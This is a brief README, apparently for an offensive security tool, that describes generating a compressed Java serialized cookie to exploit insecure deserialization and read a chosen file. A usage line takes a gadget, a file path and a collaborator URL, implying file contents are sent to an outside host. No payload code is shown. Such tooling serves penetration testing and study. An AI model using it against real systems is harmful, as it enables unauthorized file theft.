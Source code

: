 # gen_java_compressed_cookie
Generation of a compressed java serialized cookie to read the given file when insecure deserialization.

## Usage
```
./gen_payload_cookie.sh <GADGET> <FILE_TO_READ> <COLLABORATOR_URL>
```
